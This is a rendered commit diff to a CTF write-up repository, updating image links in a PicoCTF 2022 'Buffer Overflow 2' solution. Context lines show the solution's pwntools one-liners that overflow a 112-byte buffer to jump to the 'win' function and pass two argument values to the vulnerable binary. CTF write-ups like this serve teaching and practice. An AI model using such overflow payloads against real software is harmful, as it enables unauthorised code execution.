

Before and after one commit to MiguelCaputo/CTFs-writeups, a Markdown page: PicoCTF 2022/Buffer Overflow 2.md, 2 parts joined by grey strips. Shown: that part at 84% size. GitHub-like rendering; pictures changed too: PicoCTF 2022/Images/bo21.png (added), PicoCTF 2022/Images/bo22.png (added), PicoCTF 2022/Images/bo23.png (added); blank space fills up the shorter version.

Commit message:
New writeup

````diff
--- a/PicoCTF 2022/Buffer Overflow 2.md
+++ b/PicoCTF 2022/Buffer Overflow 2.md
@@ -2,7 +2,7 @@
 
 First we need to see if it is vulnerable to buffer overflows:
 
-![[Pasted image 20220316195746.png]]
+![image](https://github.com/MiguelCaputo/CTFs-writeups/blob/main/PicoCTF%202022/Images/bo21.png)
 
 We are, from the source code we can see that we need to get to the function "win" so we can find its address like:
 
@@ -12,7 +12,7 @@ readelf -s vuln
 
 This returns:
 
-![[Pasted image 20220316195949.png]]
+![image](https://github.com/MiguelCaputo/CTFs-writeups/blob/main/PicoCTF%202022/Images/bo22.png)
 
 The address is: 0x08049296
 
@@ -31,7 +31,7 @@ We can try this payload:
 python2 -c "from pwn import *; print 'A' * 112 + '\x96\x92\x04\x08'" | ./vuln
 ```
 
-![[Pasted image 20220316200212.png]]
+![image](https://github.com/MiguelCaputo/CTFs-writeups/blob/main/PicoCTF%202022/Images/bo23.png)
 
 This is good, we are reaching the **win** function, we just need to modify the parameters, we first create a "flag.txt" dummy file and continue testing.
 
@@ -43,7 +43,7 @@ The payload would look like:
 python2 -c "from pwn import *; print 'A' * 112 + '\x96\x92\x04\x08' + 'AAAA' + p32(0xCAFEF00D) + p32(0xF00DF00D)  " | ./vuln
 ```
 
-![[Pasted image 20220316200609.png]]
+![image](https://github.com/MiguelCaputo/CTFs-writeups/blob/main/PicoCTF%202022/Images/bo24.png)
 
 ## Flag
 
````
Also changed, not shown: PicoCTF 2022/Buffer Overflow 1.md (+2 -2 lines), PicoCTF 2022/Images/bo12.png (added).
